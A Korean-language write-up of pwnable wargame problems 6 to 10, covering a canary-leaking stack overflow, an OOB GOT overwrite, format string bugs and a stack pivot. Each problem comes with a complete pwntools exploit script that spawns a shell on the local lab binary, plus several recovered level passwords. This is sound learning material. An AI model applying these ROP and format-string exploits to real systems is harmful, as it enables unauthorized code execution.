


먼저 어김없이 또 ls -al을 눌러서 목록을 확인해 주었다.


보니까 prob/prob.c가 문제 소스인거 같다고 판단했고, 먼저 prob부터 실행을 해서 어떤 문제인지 확인을 해주었다.


./prob를 사용해서 확인해 보니까, 일기 읽기, 일기 쓰기, 프로그램 종료 이렇게 총 3개의 선택을 할 수 있는 것을 볼 수 있었다.

그리고 각 일기는 인덱스 0\~4를 활용하며 선택을 할 수 있다는 것도 알게 되었다.

이제 소스코드 분석을 해보겠다.


main 부분을 분석하다가 신기한걸 발견 했는데, index 5번이 존재한다는 것이었다.<br />그리고 index 5는 hidden을 가리키고 있다.


그리고 일기 쓰기 부분에서 BOF 취약점이 터질만한 부분을 발견하였다.

각 일기 배열은 크기가 서로 다르지만 무조건 최대 256바이트를 입력받는다.<br />그래서 선택한 일기 공간을 넘어 스택의 다른 데이터와 Canary까지 덮을 수 있다는 뜻이다.

그래서 전체 공격 흐름은 다음과 같다.

```py
인덱스 5로 숨겨진 영역 확인
→ 일기 읽기를 이용해 스택 데이터와 Canary 유출
→ 일기 쓰기로 BOF 발생
→ 유출한 Canary를 페이로드에 포함
→ 반환 주소를 system("/bin/sh") 경로로 변경
```

먼저 숨겨진 영역부터 확인해 보았다.


이렇게 5번을 눌렀을 때 `Failed, failed, failed, failed, failed, faile... itchy, tasty`라는 문자열이 나오고 있는 모습을 볼 수 있다.

그리고 아래 익스 코드를 만들어서 출력해 주면 된다.

```py
from pwn import *

context.binary = ELF("./prob", checksec=False)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
p = process("./prob")

def w(data):
    p.sendlineafter(b"> ", b"2")
    p.sendafter(b": ", b"4 ")
    p.sendafter(b"> ", data)

def r():
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b": ", b"4")
    return p.recvuntil(b"\n1. read diary", drop=True)

canary = bytearray(b"\0")
probe = bytearray(b"C")

while len(canary) < 8:
    w(b"A" * 152 + probe)
    x = r()[152 + len(probe):]
    n = 8 - len(canary)

    if len(x) >= n:
        canary += x[:n]
    else:
        canary += x + b"\0"
        probe = bytearray(v or 0x43 for v in canary)

canary = bytes(canary)
masked = bytes(v or 0x43 for v in canary)

w(b"A" * 152 + masked + b"B" * 8)
x = r()

saved = u64(x[168:174] + b"\0\0")
libc.address = saved - 0x29d90

rop = ROP(libc)
ret = rop.find_gadget(["ret"]).address
pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address

payload = flat(
    b"A" * 152,
    canary,
    b"B" * 8,
    ret,
    pop_rdi,
    next(libc.search(b"/bin/sh\0")),
    libc.sym.system
)

w(payload)
p.sendlineafter(b"> ", b"3")
p.interactive()
```


이렇게 실행하고 status를 입력하면 다음으로 가는 비밀번호를 얻을 수 있다.

## 문제 7번(OOB + GOT Overwrite) {#problem-7}


이렇게 ls -al을 실행해 파일을 확인하고 got/got.c 파일을 발견할 수 있었다.


이렇게 한 번 실행해 보니까 이렇게 1,2,3번 선택할 수 있는게 나오는 것을 확인하였다.<br />이제 소스코드 확인을 해보겠다.


먼저 main 부분에 보이는 취약점은 아래와 같다.

```py
scanf("%d", &select);
scanf("%llu", &wire[select]);
```

간단하게 요약하면 select의 범위를 검사하지 않아서 wire 배열 밖의 주소도 덮어쓸 수 있다. <br />그러면 즉, 원하는 GOT 주소를 변경할 수 있는 OOB Write 취약점이 터질 수 있다는 뜻이다.

```py
GOT 주소
- 외부 라이브러리에 있는 함수의 실제 메모리 주소를 저장해 둔 테이블(배열이라고 생각하면 편함)

OOB Write
- 배열이나 버퍼에 할당된 정상적인 인덱스(범위)를 벗어나 메모리에 값을 쓰는 취약점
```


또, startup 부분에서도 취약점이 보이는데, 입력이 wish를 넘어서 저장된 RBP, 반환 주소, 카나리까지 덮을 수 있어서 BOF 취약점이 터질 수 있다.

이제 최종적으로 코드 부분들을 다 살펴보았고, 공격 흐름을 짜면 다음과 같다.

1. 1번의 OOB Write로 \_\_stack\_chk\_fail@GOT를 ret 주소로 변경
2. 2번 오버플로로 카나리를 덮어도 검사를 통과
3. puts(read@GOT)로 libc 주소 유출
4. startup()을 다시 실행
5. system("/bin/sh") ROP 실행

```py
from pwn import *

e = context.binary = ELF("./got", checksec=False)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
p = process(e.path)

pop_rdi = 0x4011fe
ret = 0x40101a
stack = e.bss() + 0x900

def w1(index, value):
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b": ", str(index).encode())
    p.sendlineafter(b": ", str(value).encode())

def w2(data):
    p.sendlineafter(b"> ", b"2")
    p.sendafter(b"!\n", data)

index = (e.got["__stack_chk_fail"] - e.sym["wire"]) // 8
w1(index, ret)

payload = flat(
    b"A" * 0x110,
    stack,
    pop_rdi,
    e.got["read"],
    e.plt["puts"],
    e.sym["startup"]
)

w2(payload)

leak = u64(p.recvline().strip().ljust(8, b"\0"))
libc.address = leak - libc.sym["read"]

payload = flat(
    b"A" * 0x110,
    stack,
    ret,
    pop_rdi,
    next(libc.search(b"/bin/sh\0")),
    libc.sym["system"]
)

p.sendafter(b"!", payload)
p.interactive()
```

이렇게 익스 코드를 짜고 실행을 하면 정상적으로 id와 다음으로 넘어갈 수 있는 비밀번호가 나오게 된다.


## 문제 8번(FSB) {#problem-8}


<p>
fsb / fsb.c 소스코드가 있는 것을 확인
</p>


fsb를 실행해 보니까 이렇게 1,2,3의 선택지가 존재하는 것을 확인, 이제 소스코드 분석으로 넘어가 보겠다.


```py
read(0, buf, 0x9f);
printf(buf);
```

입력값을 서식 문자열로 직접 사용해서 %p, %n 같은 포맷 지정자를 실행할 수 있다.


open\_emergency가 실행되면 flag 파일에서 다음 챕터 비밀번호를 출력한다.


마지막으로 case 2번은 exitst\_or\_not에 저장된 주소를 함수로 실행하는 부분이다.<br />따라서 1번의 printf(buf)로 함수 포인터를 open\_emergency\_medicine() 주소로 바꾼 뒤, 2번을 누르는 방식으로 공격 흐름을 잡았다.

```py
from pwn import *

context.arch = "amd64"
p = process("./fsb")
e = ELF("./fsb", checksec=False)

def fsb(data):
    p.sendlineafter(b"> ", b"1")
    p.send(data + b"\n")
    return p.recvline().strip()

buf = int(fsb(b"%p"), 16)
target = buf - 8
oem = e.sym["open_emergency_medicine"]

payload = f"aa%{oem - 2}c%10$n".encode()
payload += p64(target)

fsb(payload)
p.sendlineafter(b"> ", b"2")
p.interactive()
```

이렇게 익스 코드를 짜고 실행하면 다음으로 넘어가는 비밀번호를 얻을 수 있었다.


fsbeeee

## 문제 9번(Stack Pivot) {#problem-9}


이번에도 pivot / pivot.c 소스코드를 발견


일반 프로그램은 이렇게만 뜨고 종료되어서 소스코드를 확인해봄


main 함수를 확인 해보니 다음과 같은 취약한 부분을 확인할 수 있었음

```py
char buf[0x30];
read(0, buf, 0x70);
```

48바이트 버퍼에 112바이트를 입력해서 저장된 RBP와 반환 주소를 덮을 수 있는 점

```py
if (loop)
    exit(-1);

loop = 1;
```

근데 main()을 처음부터 다시 호출하면 바로 종료된다. 그래서 윗부분에 존재하는 gadget을 활용할 것이다.


공격 흐름은 다음과 같음

1. 첫 오버플로로 read(0, bss, 0x70) 실행
2. leave; ret으로 스택을 .bss로 이동
3. puts(read@GOT)로 libc 주소 유출
4. .bss에 마지막 ROP 체인을 입력
5. system("/bin/sh") 실행

```py
from pwn import *
from time import sleep

e = context.binary = ELF("./pivot", checksec=False)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
p = process(e.path)

ret = 0x40101a
pop_rdi = 0x4011e5
pop_rsi = 0x4011e7
pop_rdx = 0x4011eb
leave_ret = 0x40127b
bss = e.bss() + 0x800

payload = flat(
    b"A" * 0x30,
    bss,
    pop_rdi, 0,
    pop_rsi, bss, 0,
    e.plt["read"],
    leave_ret
)

p.sendafter(b"laboratory.\n", payload)
sleep(1)

payload = flat(
    bss,
    pop_rdi, e.got["read"],
    e.plt["puts"],
    pop_rdi, 0,
    pop_rsi, bss, 0,
    pop_rdx, 0x100,
    e.plt["read"],
    leave_ret
)

p.send(payload)
sleep(1)

leak = u64(p.recvline().strip().ljust(8, b"\0"))
libc.address = leak - libc.sym["read"]

payload = flat(
    bss,
    ret,
    pop_rdi,
    next(libc.search(b"/bin/sh\0")),
    libc.sym["system"]
)

p.send(payload)
p.interactive()
```

이렇게 코드를 짜고 실행을 하면 셸이 열리고 status를 입력하면 다음으로 넘어가는 비밀번호가 나오게 된다.


bss\_is\_useful

## 문제 10번(FSB + libc GOT Overwrite) {#problem-10}


이번에도 똑같이 final / final.c 소스코드가 있는 것을 확인


대충 실행해 보니까 ID 맞추는 문제(또는 덮어씌우거나) <br />이제 소스코드를 분석해 보겠다.

소스코드를 분석해본 결과 취약한 부분은 다음과 같다.


이 부분을 보면 여기에 지정되지 않은 index를 입력할 시 return 값을 3으로 하는 코드가 존재하는 것을 확인할 수 있었다.


```py
printf(id_number);
```

이 부분이 바로 핵심적인 취약한 부분이라고 말할 수 있는 곳이다.<br />안전한 형태는 printf("%s", id\_number)으로 데이터를 출력하는데,  현재는 입력값 자체를 포맷 문자열로 실행하고 있는 모습을 볼 수 있다.

그래서 id\_number 부분에 %33\$p 이러한 명령어와 같이 스택의 33번째 값을 출력해서 libc 주소를 유출할 수 있다.


```py
fprintf(access_log, passwd);
```

이 부분도 아까랑 마찬가지로 그대로 출력을 받는 부분이 존재한다.

그래서 공격 흐름은 다음과 같이 구성하였다.

1. ID에 %33\$p를 넣어 libc 주소 유출
2. Lord Of Buffer overflow로 check\_passwd() 진입
3. 비밀번호 포맷 스트링으로 libc의 strlen@GOT를 system() 주소로 변경
4. 비밀번호 시작에 /bin/sh; 저장
5. 이후 puts(password) 내부에서 strlen(password) 대신 system(password)가 실행되어 셸 획득 유도

```py
from pwn import *

context.arch = "amd64"

p = process("./final")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)

p.sendafter(b": ", b"%33$p\n")
leak = int(p.recvline().strip(), 16)
libc.address = leak - 0x29d90

strlen_got = libc.address + 0x21a098
system = libc.sym["system"]

low = system & 0xffff
high = (system >> 16) & 0xffff

payload = b"/bin/sh;"
payload += f"%{low - 8}c%32$hn".encode()
payload += f"%{0x10000 - low + high}c%33$hn".encode()
payload = payload.ljust(0x28, b"A")
payload += p64(strlen_got)
payload += p64(strlen_got + 2)

p.sendafter(b": ", b"Lord Of Buffer overflow")
p.sendafter(b": ", payload)
p.interactive()
```

이렇게 익스 코드를 짜고 다음과 같이 실행하면 셸이 열리고 클리어가 된다.


## 소감 {#reflection}

포너블은 거의 해보지 않았는데(바이너리 분석만 많이 해봄)<br />그래서 익스 코드를 짜는데 조금 어려움이 있었던 것 같다.

근데 막상 해보니까 또 재밌음..<br />모르는 기법들을 찾아서 개념을 학습하고, 그거에 따른 소스코드들을 보면서 취약한 부분들을 분석한 뒤에 익스플로잇 코드를 짜서 실습하는 게 개인적으로 재밌었던 것 같다고 생각한다.<br />(추가로 스토리도 볼만 했다.)

이렇게 다른 분야들을 공부할 때마다 모든 여러 분야들이 다 재밌어서 뭘 먼저 해야 할지 잘 못 고르겠는 마음이 크게 든다.

그래도 이 문제들을 해결하면서 익스를 짜는 능력도 어느 정도 키웠고, 앞으로도 계속 다른 포너블 원데이, 제로데이 분석들을 하면서 익스 코드 재현하는 것까지 한 번 목표로 잡아서 해보려고 한다.

유익한 문제들이었다.
